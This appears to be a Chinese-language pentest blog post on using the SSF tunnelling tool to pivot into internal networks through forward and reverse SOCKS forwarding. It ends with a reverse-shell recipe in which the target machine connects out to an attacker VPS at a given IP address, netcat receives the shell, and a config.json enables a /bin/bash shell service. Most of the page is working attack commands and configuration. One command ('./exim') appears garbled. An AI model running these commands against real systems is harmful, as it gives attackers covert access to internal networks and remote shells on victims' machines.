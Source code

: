 ```yaml
---
title: ssf反向动态转发与正向的区别&反弹shell
categories:
- tools
tags:
- tools
---
```

ssf反向动态转发与正向的区别&反弹shell
===
					   	                                   
## 正向动态转发（要访问的是ssfd服务端的网络）
当我们要去连接内网的时候，可以直接访问到

ssf服务端设置（访问这个网络）

```
./ssfd -p 1080
python -m SimpleHTTPServer 8000
wget -r http://192.168.28.148:8000/ssf

ssf客户端设置：
./ssf -D 1089 -p 8080 VPS-IP
```
## 反向动态转发（要访问的是ssf客户端的网络）
当我们要连接内网，但是无法直接访问内网机器。如果内网机器可以出网，那么就可以让内网机器来连我们。

```
vps上设置监听：
./ssfd -p 8080

内网机器来主动连接我们：
./ssf -F 1089 -p 8080 VPS-IP
./ssf -F 1089 -p 8080 18.167.19.3
```
## 案例一：访问谷歌
```
vps设置：./ssfd -p 8080
攻击机器设置：./exim -D 1089 -p 1080 18.167.19.3
proxychains firefox 
./ssf -D 1089 -p 8080 18.167.19.3
```
## 案例二：弹shell
### 反向shell

```
【vps设置】
./ssfd -p 8080 -c config.json /b

【目标机器】
./ssf -Y shell要接收的端口 VPS -c config.json -p VPS监听的端口

./ssf -Y 8888 45.62.123.226 -c config.json -p 8080
```
nc 127.0.0.1 8888

### config.json参考配置
```
{
  "ssf": {
    "arguments": "",
    "circuit": [],
    "tls" : {
      "ca_cert_path": "./certs/trusted/ca.crt",
      "cert_path": "./certs/certificate.crt",
      "key_path": "./certs/private.key",
      "key_password": "",
      "dh_path": "./certs/dh4096.pem",
      "cipher_alg": "DHE-RSA-AES256-GCM-SHA384"
    },
    "http_proxy" : {
      "host": "",
      "port": "",
      "user_agent": "",
      "credentials": {
        "username": "",
        "password": "",
        "domain": "",
        "reuse_ntlm": "true",
        "reuse_nego": "true"
      }
    },
    "services": {
      "datagram_forwarder": { "enable": true },
      "datagram_listener": {
        "enable": true,
		"shell": { "enable": false },
        "gateway_ports": false
      },
      "stream_forwarder": { "enable": true },
      "stream_listener": {
        "enable": true,
        "gateway_ports": false
      },
      "copy": { "enable": false },
      "shell": {
        "enable": true,
        "path": "/bin/bash",
        "args": ""
      },
      "socks": { "enable": true }
    }
  }
}
```